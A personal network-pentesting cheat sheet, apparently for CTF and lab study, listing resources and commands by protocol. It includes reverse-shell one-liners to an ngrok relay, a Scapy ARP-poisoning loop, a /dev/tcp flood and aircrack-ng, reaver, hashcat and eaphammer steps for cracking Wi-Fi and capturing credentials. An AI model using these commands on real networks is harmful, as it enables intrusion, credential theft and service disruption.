


## Documentation

- https://servethehome.com/
- https://github.com/frostbits-security/MITM-cheatsheet/
- https://github.com/antlarac/Wi-Fi-Pentesting-Cheatsheet/
- https://scapy.readthedocs.io/en/latest/usage.html#classical-attacks
- https://github.com/sergiomarotco/Network-segmentation-cheat-sheet
- https://heystacks.com/doc/401/attacking-secondary-contexts-in-web-applications
- https://cyber.gouv.fr/publications/recommandations-relatives-aux-architectures-des-services-dns
- https://cyber.gouv.fr/publications/recommandations-relatives-linterconnexion-dun-si-internet

### Forum

- https://lafibre.info/
- https://wiki.mesh-idf.fr/fr/home

### Cours

- https://www.frameip.com/
- https://beej.us/guide/bgnet0/html/split/
- https://www.it-connect.fr/cours-it-gratuits/
- https://zestedesavoir.com/tutoriels/2789/les-reseaux-de-zero/
- https://openclassrooms.com/fr/courses/2340511-maitrisez-vos-applications-et-reseaux-tcp-ip

## Captures / Challenges

- https://wifichallengelab.com/
- https://wiki.wireshark.org/SampleCaptures
- https://tshark.dev/analyze/packet_hunting/packet_hunting/ (memo)
- https://packetlife.net/blog/2009/jul/13/quick-packet-capture-data-extraction/
- https://pwn.college/intro-to-cybersecurity/intercepting-communication/

```bash
# listening
sudo tcpdump -n -i any udp port 5555
ss -tunlpa

# basic traffic capture
sudo tcpdump -l -n -i wlan0

# basic pcap parsing
# filtering protocols -Y "ip.addr == 127.0.0.1 && icmp.type==8"
tshark -2 -r chall.pcap -T fields -e data
```

## Tools

- [Alfa antennas - dongle USB](https://www.alfa.com.tw/)
- [Bettercap](https://www.bettercap.org/installation/)
- [Curl - devhints.io](https://devhints.io/curl)
- [Eaphammer](https://github.com/s0lst1c3/eaphammer)
- [GNURadio](https://wiki.gnuradio.org/index.php/Main_Page)
- [GQRX](https://github.com/gqrx-sdr/gqrx)
- [Hex Packet Decoder](https://www.gasmi.net/hpd/)
- [Hping3](https://thelinuxcode.com/hping3/)
- [Impacket](https://github.com/fortra/impacket)
- [Ngrok](https://ngrok.com/)
- [Revshells](https://revshells.com)
- [Scapy](https://scapy.readthedocs.io/)
- [Tshark](https://tshark.dev/)
- [Wifite2](https://github.com/kimocoder/wifite2)

`curl  is a tool for transferring data from or to a server. It supports these protocols: DICT, FILE, FTP, FTPS,
GOPHER, GOPHERS, HTTP, HTTPS, IMAP, IMAPS, LDAP, LDAPS, MQTT, POP3, POP3S, RTMP, RTMPS, RTSP, SCP, SFTP,  SMB,
SMBS, SMTP, SMTPS, TELNET or TFTP. The command is designed to work without user interaction.`

[Impacket Usage: Active directory](../windows/active_directory)

### Radio frequences

- https://wigle.net/
- https://www.cartoradio.fr/index.html#/


## Network Topology

- https://en.wikipedia.org/wiki/Network_topology

## Ethernet

- https://en.wikipedia.org/wiki/Ethernet
- https://en.wikipedia.org/wiki/InfiniBand
- https://scapy.readthedocs.io/en/latest/routing.html#get-the-mac-of-an-interface
- https://scapy.readthedocs.io/en/latest/usage.html#sending-packets

```python
from scapy.all import *

src_mac = get_if_hwaddr(conf.iface) # ip -br link
dst_mac = "aa:bb:cc:dd:ee:ff" # ping <ip> && arp -a

pkt = Ether(src=src_mac,dst=dst_mac)

pkt.show()
sendp(pkt,conf.iface) #Layer2
```


## ARP

- https://en.wikipedia.org/wiki/Address_Resolution_Protocol
- https://scapy.readthedocs.io/en/latest/usage.html#arp-mitm
- https://web.archive.org/web/20120720120549/http://www.ghostsinthestack.org/article-20-man-in-the-middle.html

```bash
arp-scan wlan0
```

```py
from scapy.all import *
import time

iface = conf.iface
your_mac = get_if_hwaddr(iface)

pkt = Ether(dst=getmacbyip(server_ip))/ARP(
    op=2,
    psrc=client_ip,
    pdst=server_ip,
    hwsrc=your_mac,
    hwdst=getmacbyip(server_ip)
)

pkt2 = Ether(dst=getmacbyip(client_ip))/ARP(
    op=2,
    psrc=server_ip,
    pdst=client_ip,
    hwsrc=your_mac,
    hwdst=getmacbyip(client_ip)
)

while(True):
    sendp(pkt, iface=iface, verbose=False)
    time.sleep(0.5)
    sendp(pkt2, iface=iface, verbose=False)
    time.sleep(0.5)
```

[sniff.py](./sniff.py)

### Vlan Hopping

- https://blog.bwlryq.net/fr/posts/vlan_hopping/
- https://scapy.readthedocs.io/en/latest/usage.html#arp-cache-poisoning

## IP

- https://en.wikipedia.org/wiki/Internet_protocol_suite
- https://en.wikipedia.org/wiki/Internet_Protocol
- https://en.wikipedia.org/wiki/Private_network
- https://en.wikipedia.org/wiki/IP_routing
- https://en.wikipedia.org/wiki/Time_to_live
- https://scapy.readthedocs.io/en/latest/usage.html#sending-packets
- https://access.redhat.com/sites/default/files/attachments/rh_ip_command_cheatsheet_1214_jcs_print.pdf

```bash
# bind locally
ip addr add 10.0.0.4/24 dev eth0
```

### Nat

- https://zestedesavoir.com/tutoriels/2789/les-reseaux-de-zero/reprenons-du-service/nat/

### Subnetting

`Memo: masque=subnet+host`

- https://jodies.de/ipcalc
- https://www.calculator.net/ip-subnet-calculator.html
- https://zestedesavoir.com/tutoriels/2789/les-reseaux-de-zero/veuillez-vous-identifier-pour-communiquer/le-subnetting-en-pratique/

```
10.1.1.0/24 ->3  subnets, 40 hosts 1st one 
- `/24`-> 24 x '1' : 255.255.255.0
- nosferat2: 40 <=64 = 2  ^ 6:  -> increment = (nosferatu (1) 1 (0 0 0 0 0 0) -> 64)) 
- m = ssssss hh : 255.255.255.192 (nosfera2 : 1+1 -> 128+64)= /26 (CIDR notation)
- 10.1.1.0-> 10.1.1.63 (inc=64) -> 2^6 - 2 machines
```

```
1st: 10.1.1.0/26
2nd: 10.1.1.64/26
3d: 10.1.1.128/26
```

### IPsec, Wireguard

- https://en.wikipedia.org/wiki/IPsec
- https://docs.exegol.com/faq#can-i-use-a-vpn-with-exegol


## TCP

- https://en.wikipedia.org/wiki/Transmission_Control_Protocol
- https://www.geeksforgeeks.org/computer-networks/tcp-ip-model/
- https://0x25.github.io/2021/09/09/Patch-TCP-packets-on-the-fly/
- https://undercodetesting.com/manually-performing-the-tcp-three-way-handshake-with-scapy/
- https://web.archive.org/web/20120720121725/http://www.ghostsinthestack.org/article-10-lidle-host-scan.html

### Sockets

- https://realpython.com/python-sockets/
- https://en.wikipedia.org/wiki/Network_socket
- https://maxnilz.com/docs/004-network/001-tcp-connection-est/
- https://scapy.readthedocs.io/en/latest/usage.html#stacking-layers

```py
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST,PORT))
```

```py
from scapy.all import *

pkt = IP(dst="10.0.0.4")/TCP(dport=65535)
pkt.show2()   # better than show(): computes lengths/checksums
send(pkt)
```

### Denial of Service

- https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/

`while true; do   exec 3<>/dev/tcp/ip/port;   exec 3<&-; done`

### Firewall 

[../ctf](../ctf)

- https://linuxize.com/cheatsheet/iptables/
- https://github.com/trimstray/iptables-essentials
- https://zestedesavoir.com/tutoriels/2789/les-reseaux-de-zero/apprenons-a-securiser-un-reseau/allumez-le-pare-feu/
- https://docs.suricata.io/en/suricata-6.0.0/rules/intro.html

```bash
# Check rules
iptables -L -n --line-numbers

# Allow SSH from 5.6.7.8
iptables -A INPUT -p tcp --dport 22 -s 5.6.7.8 -j ACCEPT

# Block SSH from 1.2.3.4
iptables -A INPUT -p tcp --dport 22 -s 1.2.3.4 -j DROP
```

### Reverse shell

- https://www.revshells.com/
- https://github.com/0xfalafel/rcat
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```bash
# Most generic payload on victim's side
busybox nc <ip> <port> -e sh
```

#### Private network

`Using tun0 interface (ex OpenVPN)`

```bash
# Attacker
rlwrap nc -nlpv 4444
```

```bash
# Victim
sh -i >& /dev/tcp/<ip tun0>/4444 0>&1
```

#### Public network

- https://web.archive.org/web/20250424195428/ttps://cheatsheet.haax.fr/shells-methods/reverse/

```bash
#term1
ngrok config add-authtoken TOKEN
ngrok tcp 4444

#Forwarding                    tcp://5.tcp.eu.ngrok.io:16833 -> localhost:4444


#term2
rlwrap nc -nlvp 4444
```

```bash
# Victim
sh -i >& /dev/tcp/5.tcp.eu.ngrok.io/16833 0>&1
```

### Reverse Proxy - Ip Spoofing

```bash
ngrok tcp 4444
rlwrap nc -nlvp 4444
```

**Nginx**

```bash
sudo apt install nginx
```

```bash
sudo vim etc/nginx/sites-available/default
```

```
server {
   ...
         # remplacer location /
	location / {
                proxy_pass http://vulnerable-site.org ; 
                proxy_set_header X-Forwarded-For $remote_addr ;
	}
   ...
}
```

```bash
sudo systemctl restart nginx
firefox $(ip a s eth0 | awk -F'[/ ]+' '/inet[^6]/{print $3}')/page #http://vulnerable-site.org/page
```


## DNS

- https://en.wikipedia.org/wiki/Domain_Name_System
- [Bind9 DNS cache poisoning - predictable UDP port](https://citeseerx.ist.psu.edu/document?repid=rep1&type=pdf&doi=0c1e863b6698808b724def8793d7cba023494808)
- https://blog.cloudflare.com/everything-you-ever-wanted-to-know-about-udp-sockets-but-were-afraid-to-ask-part-1/

### Free DNS

- https://www.noip.com/

### Zone transfer

Get AXFR records without auth:

- get subdomains from domain_name
- all records for a subdomain

```bash
dig axfr @IP (sub)_domain_name
#@server/routeur subdomain

host -t axfr zonetransfer.me nsztm1.digi.ninja.
```

### DNSCrypt & DNSSEC

- https://github.com/DNSCrypt/dnscrypt-proxy/wiki/Installation-linux
- https://security.stackexchange.com/questions/122547/is-there-a-point-to-dnscrypt-when-using-vpn
- https://github.com/DNSCrypt/dnscrypt-proxy/issues/519

**1.1.1.1**

- https://security.stackexchange.com/questions/238871/will-1-1-1-1-hide-my-traffic-from-my-landlords-router
- https://www.reddit.com/r/CloudFlare/comments/15inies/difference_between_1111_and_warp/

ou

```bash
sudo pacman -S dnsproxy
sudo rm -f /etc/resolv.c*
sudo nano /etc/resolv.conf
#nameserver 127.0.0.1
#options edns0

sudo dnscrypt-proxy -service install
sudo dnscrypt-proxy -service start
dnscrypt-proxy -config /etc/dnscrypt-proxy/dnscrypt-proxy.toml -resolve example.com
```

- https://lig-membres.imag.fr/sicard/tpRES/DNSRICM2-TP.pdf
- https://digi.ninja/projects/zonetransferme.php

### DNS Rebinding

- https://nip.io/ 
- https://github.com/mpgn/ByP-SOP
- https://lock.cmpxchg8b.com/rebinder.html

### Reverse DNS lookup

- https://web-check.as93.net/
- https://dnsdumpster.com/ (map)
- https://search.censys.io/
- https://www.ssllabs.com/ssltest/
- https://subdomainfinder.c99.nl/
- https://www.duckdns.org/

```bash
whois google.com
```

```bash
nslookup flaws.cloud
nslookup 52.92.249.179
```

## HTTP

- https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol
- [ssl](https://github.com/4nuit/Hacking/tree/master/crypto#ssl)
- https://en.wikipedia.org/wiki/Transport_Layer_Security
- https://en.wikipedia.org/wiki/HTTPS
- [Curl Options & POST - Gist](https://gist.github.com/subfuzion/08c5d85437d5d4f00e58)

```bash
mkdir secret; cd secret
ngrok tcp 4444

python -m http.server 4444
```

## FTP

- https://fr.wikipedia.org/wiki/File_Transfer_Protocol

Serveur:

```bash
mkdir secret; cd secret
python -m pyftpdlib -D
ngrok tcp 2121
```

## LDAP

- https://serverfault.com/questions/1083914/replace-anonymous-ldapsearch-command-with-curl-command

## POP/IMAP

- https://support.mozilla.org/en-US/kb/blocking-sender
- https://elsicarius.fr/les-adresses-email-vous-connaissez

## Misc

### SNMP

- https://www.0x0ff.info/2013/snmpv3-des-cryptool/

### XMPP

- https://wiki.xmpp.org/web/SASL_Authentication_and_SCRAM

### VoIP

- https://www.eventhelix.com/ims/
- https://www.eventhelix.com/telecom/
- https://en.wikipedia.org/wiki/IP_PBX
- https://en.wikipedia.org/wiki/Session_Initiation_Protocol
- https://www.commentcamarche.net/telecharger/communication/24399-x-lite/



### QUIC

- https://github.com/francoismichel/ssh3

### Radio protocols

- https://www.qsl.net/on4qz/qsstv/manual/index.html
- https://recolog.blogspot.com/2017/08/demodulating-am-signals-using-gnuradio.html

`hw:0,0`: name device

```bash
sudo pacman -S qwt
aplay -l
cat /proc/asound/cards
```

### Phone Phreaking

- https://en.wikipedia.org/wiki/Phreaking
- https://en.wikipedia.org/wiki/Signalling_System_No._7

## Wifi

- https://github.com/derv82/wifite2/
- https://github.com/Tylous/SniffAir
- https://github.com/V0lk3n/WirelessPentesting-CheatSheet
- https://cheatsheet.haax.fr/wireless/wifi_cracking/
- https://www2.aircrack-ng.org/hiexpo/aircrack-ng_book_v1.pdf
- https://www.aircrack-ng.org/doku.php?id=shared_key
- https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients
- https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_via_a_wireless_client
- https://null-byte.wonderhowto.com/how-to/buy-best-wireless-network-adapter-for-wi-fi-hacking-2019-0178550/
- https://null-byte.wonderhowto.com/how-to/select-field-tested-kali-linux-compatible-wireless-adapter-0180076/

```bash
sudo wifite -mac --keep-ivs --ignore-locks -ic --pmkid-timeout 600 --v # --kill -inf -p 3600 --bully
```

### Internals

- Implementation (Linux) with `wpa_supplicant -h` or `NetworkManager -h`
- **RSN**: Robust security Networks (**802.11i**), (since TKIP/CCMP for PSK)
- **802.1X**: Port-based Network Access Control: supplicant (station/client), authenticator/controller (Access Point if Wifi) & authentication server (Radius if MGT)
- **802.11 (WIFI)**: Different norms for **channels** : 802.11a/b/g/n/ac/ad/ax
- **BSSID**: Access Point MAC, ESSID: Access Point Name, STATION MAC: MAC of 1 AP's Client, MAC: Personal MAC (`macchanger -s wlan1mon`)
- 2 modes for WPA/WPA2: **PSK** (Personal AP) and **Enterprise/MGT** (Enterprise AP with **Radius** server)
- 2 modes for WPA3: **SAE** and **Enterprise**
- Enterprise mode: Client <-- EAP (TLS,TTLS,PEAP,Kerberos,SIM)--> AP <-- PSK or SAE --> Radius server

### Man In The Middle

- https://security.stackexchange.com/questions/225985/is-there-any-point-of-arp-spoofing-on-a-wifi-network

```bash
sudo ip l set wlanx down
sudo iw wlanx set monitor none
sudo ip l set wlanx up
sudo iw wlanx info
sudo wireshark&
```

### WEP, WPA-PSK (4 way handshake with TKIP => RC4)

- https://dl.aircrack-ng.org/breakingwepandwpa.pdf
- https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
- https://aur.archlinux.org/packages/wpa_supplicant-wep
- WEP vulns: **RC4** Key Schedule, **IV Reuse** (Birthday Paradox ~ 5000 packets), bad integrity control (CRC32), no anti-replay mechanism

```txt
#wep challenge in wireshark
wlan.fc.type_subtype == 0x0020
```

#### Authentification

```txt
encrypted_packet = plaintext ^ RC4(iv|key)

iv = 24 bits
key = iv|psk
psk = 5 chars = 40 bits <-> key = iv|psk = 64 bits
psk = 13 chars = 104 bits <-> key = iv|psk = 128 bits
```



#### Capture & ARP Request Replay

Capture an encrypted packet which is the size of an ARP request, replays it to the AP, which generates new packets with **extra IVs**

```bash
# Using appropriate channel found using airodump-ng for the 1st time
airmon-ng stop wlan1mon
airmon-ng start wlan1 <CHANNEL>
airodump-ng --bssid <BSSID> -w wep wlan1mon

aireplay-ng -3 -b <BSSID> -h <STATION MAC> -x 600 wlan1mon
```

```bash
# WEP
aireplay-ng  --help
#  Attack modes (numbers can still be used):
#
#      --deauth      count : deauthenticate 1 or all stations (-0)
#      --fakeauth    delay : fake authentication with AP (-1)
#      --interactive       : interactive frame selection (-2)
#      --arpreplay         : standard ARP-request replay (-3)
#      --chopchop          : decrypt/chopchop WEP packet (-4)
#      --fragment          : generates valid keystream   (-5)
#      --caffe-latte       : query a client for new IVs  (-6)
#      --cfrag             : fragments against a client  (-7)
#      --migmode           : attacks WPA migration mode  (-8)
#      --test              : tests injection and quality (-9)

# WPA-PSK
tkiptun-ng --help
```

#### Capture & Deauth

```bash
airmon-ng start wlan1 #set monitor & rename wlan0 (wlan0mon)
airodump-ng wlan1mon #scan network
airodump-ng --bssid <BSSID> -w wep wlan1mon # capture from bssid (last command) , -w = prefix name

aireplay -0 1 -a <BSSID> -c <STATION MAC> wlan1mon
```

#### Capture & IP Redirection

**KoreK ChopChop**:
Chop one byte of an encrypted packet, still producing a valid CRC32

```bash
# airodump-ng --bssid <BSSID> -w wep wlan1mon

aireplay-ng -4 -b <BSSID> -h <STATION MAC> wlan1mon
# Outputting 2 files
# replay_dec_.xor replay_dec_.cap
```

**Fragmentation attack**:
Redirecting dest IP to a controlled IP, tricking the AP to decrypt the fragmented packet

```bash
# airodump-ng --bssid <BSSID> -w wep wlan1mon

aireplay-ng -5 -b <BSSID> -h <STATION MAC> <interface>
packetforge-ng -0 -a <BSSID> -h <STATION MAC> -l <Source IP> -k <Dest IP> -y <xor filename> -w <output filename>
aireplay-ng -2 -r <packet filename> wlan1mon
```

#### Client-Less Fake Authentication

```bash
# airodump-ng --bssid <BSSID> -w wep wlan1mon

aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC> wlan1mon

# OR
# -1 6000 : Reauthenticate every 6000s
# -o 1 : Send only one set of packets at a time
# -q 10 : Send keep alive packets every 10 seconds
aireplay-ng -1 6000 -o 1 -q 10 -e <ESSID> -a <BSSID> -h <MAC> wlan1mon
```

Then use the Fragmentation (or ChopChop) attack

```bash
aireplay-ng -5 -b <BSSID> -h <MAC> wlan1mon
#  Use this packet ? y
#  Outputting xor and cap files

# If not successful use KoreK ChopChop attack
aireplay-ng -4 -h <MAC> -b <BSSID> wlan1mon
#  Use this packet ? y
#  Outputting xor and cap files
```

Reuse this to forge a new packet

```bash
packetforge-ng -0 -a <BSSID> -h <MAC> -k 255.255.255.255 -l 255.255.255.255 -y fragment.xor -w arp-request.cap
```
 
Relaunch airodump and inject the crafted packet

```bash
airodump-ng -c X --bssid <BSSID> -w new_capture wlan1mon
aireplay-ng -2 -r arp-request wlan1mon
#Use this packet ? y
```

Crack the captures

```bash
aircrack-ng -b <BSSID> capture*.cap 
```

#### Tests & Bruteforce

```bash
# w = hex key, testing if len(key) = 13
airdecap-ng -w $(python3 -c "import sys;sys.stdout.buffer.write(b'A'*13)"|xxd -ps) -b  <BSSID> wep-01.cap

# If len fails:
#Invalid WEP key length. [5,13,16,29,61]
#"airdecap-ng --help" for help.
```

```bash
# -a 1 = wep (default)
# -k = korek attack (inspired by FMS), -z = ptw attack (default)

# -n = length key. If len(hex_key)=13 then n = 128
aircrack-ng -w rockyou.txt -b <BSSID> -n 128 wep-01.cap

# set interface back to managed mode
# airodump-ng stop wlan1mon
```

### WPA/WPA2 (4way handshake with CCMP = AES 128 CBC-MAC)

- https://www.aircrack-ng.org/doku.php?id=cracking_wpa
- https://www.wifi-professionals.com/2019/01/4-way-handshake

#### Capture 4-way handshake, Deauth & Bruteforce

**Aircrack**

```bash
#airmon-ng stop wlan1mon
#airmon-ng start wlan1 <CHANNEL>

airodump-ng --bssid <BSSID> -w wpa wlan1mon #find bssid (last command) , -w = prefix name
aireplay -0 1 -a <BSSID> -c <STATION MAC> wlan1mon

# -a 2 = wpa-psk
aircrack-ng -a 2 -w rockyou.txt -b <BSSID> wpa-01.cap
```

**Bettercap**

```bash
sudo docker run -it --privileged --rm --net=host bettercap/bettercap -iface wlanx
#wifi.recon help

wpapcap2john bettercap-wifi-handshakes.pcap
```

#### Tests and Bruteforce

```bash
cowpatty -r hs/handshake_RepeatSalon.cap -f ~/SecLists/Passwords/darkc0de.txt -s RepeatSalon -vv
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.

AA is : ...
SPA is : ...
snonce is: ...
anonce is: ...
keymic is: ...
eapolframe is: ...
```

**Wifite**

```bash
sudo wifite --crack --dict ~/SecLists/Passwords/darkc0de.txt # aircrack, john, hashcat (all bf including PMKID), cowpatty (depreciated)
sudo wifite --crack --dict ~/SecLists/Fuzzing/6-digits-000000-999999.txt 
```

#### Client-Less PMKID attack

- https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/
- Included in **wifite2**

```bash
airmon-ng start wlan1
hcxdumptool -i wlan1mon -o outfile.pcapng --enable_status=1
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng
hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'
```

#### KRACK

- https://beta.hackndo.com/krack/
- https://www.krackattacks.com/
- https://github.com/vanhoefm/krackattacks-scripts

#### WPS Pin attacks

- Pixie-Dust & Pin bf attack: `reaver`, `bully`
- NULL Pin: `reaver`
- Included in **wifite2**

```bash
sudo wash -i wlan1mon
#BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID

sudo reaver -i wlan0mon -b <BSSID> -vv
```

### WPA2-EAP | WPA-MGT (Entreprise)

- https://www.cisco.com/c/en/us/support/docs/wireless-mobility/wireless-lan-wlan/214275-configure-wireshark-and-freeradius-in-or.html
- https://github.com/koutto/pi-pwnbox-rogueap/wiki/07.-WPA-WPA2-Enterprise-(MGT)

```bash
sudo python3 ./eaphammer –cert-wizard
sudo python3 ./eaphammer -i wlan6 --creds -e "xxx" -b xx:xx:xx:xx:xx:xx #BSSID /MAC
```

### WPA3 (SAE+EAP/MGT)

- https://wpa3.mathyvanhoef.com/
